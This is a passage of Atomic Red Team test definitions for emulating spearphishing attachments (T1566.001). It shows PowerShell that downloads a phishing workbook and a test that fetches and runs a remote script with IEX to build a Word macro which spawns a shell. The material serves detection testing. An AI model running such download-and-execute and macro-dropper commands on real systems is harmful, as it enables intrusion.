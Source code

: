 ```
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]
```